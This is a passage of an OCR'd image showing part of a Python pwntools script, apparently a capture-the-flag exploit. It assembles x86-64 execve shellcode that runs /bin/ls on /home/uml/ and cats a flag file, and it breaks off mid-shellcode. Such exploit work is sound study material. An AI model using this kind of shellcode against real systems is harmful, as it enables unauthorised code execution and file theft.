 ```python
        r.recvuntil(f'{rest}\r\n')
        out = r.recv(rest)
        print(f"{i} / {page}")
    if rest != 0:
        read(rest)
        r.recvuntil(f'{rest}\r\n')
        out = r.recv(rest)
        
sc_ls = asm(f"""
push 0
push rsp
mov rdx, rsp

mov rsi, 0x2f6c
push rsi
mov rsi, 0x6d752f656d6f682f
push rsi
mov rsi, rsp

push 0
mov rdi, 0x736c2f6e69622f
push rdi
mov rdi, rsp

push 0
push rsi
push rdi

mov rsi, rsp

mov rdi, 0x736c2f6e69622f
push 0
push rdi
mov rdi, rsp
mov rax, 0x3b
syscall
""")

sc_read = asm(f"""
push 0
push rsp
mov rdx, rsp

push 0
mov rdi, 0x306236
push rdi
mov rdi, 0x6136376166306264
push rdi
mov rdi, 0x362d67616c662f6c
push rdi
mov rdi, 0x6d752f656d6f682f
push rdi
mov rdi, rsp

push 0
mov rsi, 0x7461632f6e69622f
push rsi
mov rsi, rsp

push 0
push rdi
push rsi

```